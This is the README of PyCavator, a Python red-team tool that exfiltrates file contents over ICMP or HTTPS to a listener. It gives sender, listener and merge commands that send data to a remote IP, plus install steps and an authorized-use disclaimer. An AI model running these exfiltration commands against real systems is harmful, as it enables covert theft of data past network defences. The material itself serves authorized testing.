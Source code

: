 # PyCavator

PyCavator is a Python-based tool that can be used to send and receive data using ICMP/HTTPS packets. 
The tool can be used for authorized red teaming and penetration testing activities or educational purposes. 
It provides a sender mode to exfiltrate data from a file and a listener mode to receive incoming data and save it in chunks or to a single file. 
The tool also includes a merge mode to merge output files with part numbers in the specified range. 
With PyCavator, users can easily exfiltrate or receive data using ICMP packets in a secure and efficient manner.

## Usage

### ICMP 

<b>Required libraries:</b><br/>
- All libraries are part of the default Python installation.<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
```bash  
python pycavator-icmp.py -f input.txt -d 192.168.1.101
```  
  <b>Listener mode: listen for incoming data and save in chunks</b><br/>
```bash
python pycavator-icmp.py -l -s 192.168.1.100 -w c
```  
  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
```bash  
python pycavator-icmp.py -l -s 192.168.1.100 -w s -o output_folder
```  
  <b>Merge mode: merge output files with part numbers in the specified range</b><br/>
```bash
python pycavator-icmp.py --merge -x output -a 1 -b 10 -e txt -o output_folder
```

### HTTPS 

<b>Required libraries:</b><br/>
- `argparse`: used for parsing command-line arguments<br/>
- `requests`: used for sending HTTP requests<br/>
- `Flask`: used for creating the web server<br/>
- `ssl`: used for configuring SSL/TLS encryption<br/>
- `urllib3`: used for disabling SSL warnings<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
```bash
python pycavator-https.py -f input.txt -d 192.168.1.101 -p 4443 -ca ca.pem -t "eyJhbGciO..._adQssw5c"
```
  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
```bash
python pycavator-https.py -l -s 192.168.1.100 -p 4443 -pb cert.pem -pk key.pem -o /tmp -t "eyJhbGciO..._adQssw5c"
``` 

## Installation

PyCavator requires Python 3 to be installed. To install PyCavator, clone the repository and install the required Python modules:

```bash
git clone https://github.com/YOUR_USERNAME/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## How to Contribute

If you would like to contribute to PyCavator, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-NonCommercial-NoDerivatives 4.0 International (CC BY-NC-ND 4.0) license. This means that you are free to share and distribute the original work with proper attribution to the original author, but you may not modify the work or use it for commercial purposes. Additionally, any new versions of the work must be distributed under the same license and with proper attribution to the original author. See the [LICENSE](LICENSE) file for details.




